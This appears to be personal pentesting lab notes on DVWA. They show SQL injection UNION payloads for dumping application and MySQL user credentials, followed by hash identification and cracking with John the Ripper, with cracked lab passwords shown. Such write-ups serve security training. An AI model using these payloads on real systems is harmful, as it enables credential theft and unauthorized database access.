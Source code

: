 ```yaml
---
author(s):
  - Userware
tags:
  - webapp-pentesting
  - post-exploitation
  - server-side-attack
  - sql-injection
  - union
  - credential-access-and-dumping
  - dvwa
---
```

# 02 - Data Collection

## 2.1 - Dump Credentials

### 2.1.1 - Current Database Credentials

- This is useful when grabbing the credentials to find a login panel with administrative privileges. Moreover, it is possible to reuse the credentials when facing network protocols. Let's query the credentials from the current database.

```sql
' UNION SELECT user, password FROM users#
```

![[01 - Dump Credentials From Current DB.png]]

- Let's concatenate it to organize it nicely.

```sql
' UNION SELECT user || ':' || password, NULL FROM users#

' UNION SELECT concat(user,':',password), NULL FROM users#

' UNION SELECT concat(user,0x3a,password), NULL FROM users#

' UNION SELECT group_concat(user,':',password), NULL FROM users#

' UNION SELECT group_concat(user,0x3a,password), NULL FROM users#

' UNION SELECT concat(user,'~',password), NULL FROM users#

' UNION SELECT group_concat(user,'~',password), NULL FROM users#

' UNION SELECT concat(user,'\n',password), NULL FROM users#

' UNION SELECT concat(user,0x0a,password), NULL FROM users#

' UNION SELECT group_concat(user,0x0a,password), NULL FROM users#
```

![[02 - Formatted Dumped Credentials From Current DB.png]]

Copy the concatenated usernames and hashed credentials and output it in a file.

```
$ echo "admin:5f4dcc3b5aa765d61d8327deb882cf99,gordonb:e99a18c428cb38d5f260853678922e03,1337:8d3533d75ae2c3966d7e0d4fcc69216b,pablo:0d107d09f5bbe40cade3de5c71e9e9b7,smithy:5f4dcc3b5aa765d61d8327deb882cf99" | tr "," "\n" > current_db_hashes.txt
```

### 2.1.2 - Crack Current Database Password Hashes

Let's identify what hash algorithm it uses before we could crack it. Let's run [[Name-That-Hash]].

```
$ nth --no-banner --no-hashcat --text '5f4dcc3b5aa765d61d8327deb882cf99'

5f4dcc3b5aa765d61d8327deb882cf99

Most Likely 
MD5, JtR: raw-md5 Summary: Used for Linux Shadow files.
MD4, JtR: raw-md4
NTLM, JtR: nt Summary: Often used in Windows Active Directory.
Domain Cached Credentials, JtR: mscach

Least Likely
Domain Cached Credentials 2, JtR: mscach2 Double MD5,  Tiger-128,  Skein-256(128),  Skein-512(128),  Lotus Notes/Domino 5, JtR: lotus5 
md5(md5(md5($pass))), Summary: Hashcat mode is only supported in hashcat-legacy. md5(uppercase(md5($pass))),  md5(sha1($pass)),  
md5(utf16($pass)), JtR: dynamic_29 md4(utf16($pass)), JtR: dynamic_33 md5(md4($pass)), JtR: dynamic_34 Haval-128, JtR: haval-128-4 RIPEMD-128, 
JtR: ripemd-128 MD2, JtR: md2 Snefru-128, JtR: snefru-128 DNSSEC(NSEC3),  RAdmin v2.x, JtR: radmin Cisco Type 7,  BigCrypt, JtR: bigcrypt
```

We will crack the `raw-md5` hashes with [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xC - Password Cracking/Offline/JTR|John The Ripper (JTR)]] with a dictionary attack using `/usr/share/wordlists/rockyou.txt.gz` wordlist.

```
$ sudo gzip -cdk /usr/share/wordlists/rockyou.txt.gz > /usr/share/wordlists/rockyou.txt
```

All the hashed credentials are cracked.

```
$ john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt current_db_hashes.txt
Using default input encoding: UTF-8
Loaded 4 password hashes with no different salts (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
password         (admin)
abc123           (gordonb)
letmein          (pablo)
charley          (1337)
4g 0:00:00:00 DONE (2023-10-04 10:51) 80.00g/s 61440p/s 61440c/s 92160C/s my3kids..dangerous
Warning: passwords printed above might not be all those cracked
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

TODO: Add XSS for easier view

```sql
' UNION SELECT group_concat(user,':',password), <script>alert()</script>, NULL FROM users#

' UNION SELECT group_concat(user,':',password), <hex_encoded_XSS>, NULL FROM users#

' <script>alert(UNION SELECT group_concat(user,':',password), NULL FROM users)</script>#

' <script>alert(UNION SELECT group_concat(user,0x3a,password), NULL FROM users)</script>#
```

### 2.1.3 - MySQL Hashdump

- This will be useful for authenticating the MySQL DBMS server with an exposed port that allows the attacker the harvest the whole database. In addition, sometimes system administrators reuse the credentials which gives the attacker a leverage authenticate it remotely. Run a port scanner with a fingerprinting tool `nmap` to find open ports. Let's query the credentials from the MySQL server database.

```sql
' UNION SELECT user, password FROM mysql.user#
```

![[03 - Hashdump From DBMS.png]]

```sql
' UNION SELECT user || ':' || password, NULL FROM mysql.user#

' UNION SELECT concat(user,':',password), NULL FROM mysql.user#

' UNION SELECT concat(user,0x3a,password), NULL FROM mysql.user#

' UNION SELECT group_concat(user,':',password), NULL FROM mysql.user#

' UNION SELECT group_concat(user,0x3a,password), NULL FROM mysql.user#

' UNION SELECT concat(user,'~',password), NULL FROM mysql.user#

' UNION SELECT group_concat(user,'~',password), NULL FROM mysql.user#

' UNION SELECT concat(user,'\n',password), NULL FROM mysql.user#

' UNION SELECT concat(user,0x0a,password), NULL FROM mysql.user#

' UNION SELECT group_concat(user,0x0a,password), NULL FROM mysql.user#
```

![[04 - Formatted Hashdump From DBMS.png]]

Copy the concatenated hashdump credentials and output it in a file.

```
$ echo "root:*4F56EF3FCEF3F995F03D1E37E2D692D420111476,dvwa:*D7E39C3AF517EC9EF7086223B036E0B4F22821F8" | tr "," "\n" > mysql_hashes.txt
```

### 2.1.4 - Crack MySQL Server Password Hashes

Let's identify what hash algorithm it uses before we could crack it. Let's run [[Haiti]].

```
$ haiti --john-only "*4F56EF3FCEF3F995F03D1E37E2D692D420111476"
MySQL5.x [JtR: mysql-sha1]
MySQL4.1 [JtR: mysql-sha1]
```

We will crack the `mysql-sha1` hashes with [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xC - Password Cracking/Offline/JTR|John The Ripper (JTR)]] with a dictionary attack using `/usr/share/wordlists/rockyou.txt` wordlist.

```
$ john --format=mysql-sha1 --wordlist=/usr/share/wordlists/rockyou.txt mysql_hashes.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (mysql-sha1, MySQL 4.1+ [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
p@ssw0rd         (dvwa)     
1g 0:00:00:01 DONE (2023-10-04 15:27) 0.5617g/s 8057Kp/s 8057Kc/s 8063KC/sa6_123..*7¡Vamos!
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x04 - Credential Access and Dumping/Cross Platform/Databases/SQL/Hashdump/MySQL|MySQL Active Enumeration]]

- [SecurityIdiots: XSS Injection with SQLi (XSSQLi)](https://www.securityidiots.com/Web-Pentest/SQL-Injection/xss-injection-with-sqli-xssqli.html)
